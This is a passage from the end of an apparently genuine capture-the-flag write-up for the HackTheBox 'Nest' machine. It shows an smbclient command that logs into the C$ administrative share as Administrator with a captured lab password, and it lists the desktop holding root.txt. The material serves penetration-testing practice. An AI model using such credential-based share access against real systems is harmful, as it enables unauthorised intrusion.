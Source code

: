 We can find on the Administrator directory a shortcut to the `flag.txt` file. Reading this shortcut's content gives us the actual path: `\\Htb-nest\c$\Users\Administrator\Desktop\flag.txt`. Let's try to read this file.

```
smbclient //$IP/C$/ -U Administrator%XtH4nkS4Pl4y1nGX
```
```
Try "help" to get a list of possible commands.
smb: \> cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Wed Jul 21 18:27:44 2021
  ..                                 DR        0  Wed Jul 21 18:27:44 2021
  desktop.ini                       AHS      282  Sat Jan 25 22:02:44 2020
  root.txt                           AR       34  Sat Jan 11 10:22:07 2025

		5242623 blocks of size 4096. 1839990 blocks available
```

Our final flag is in the `root.txt` file.
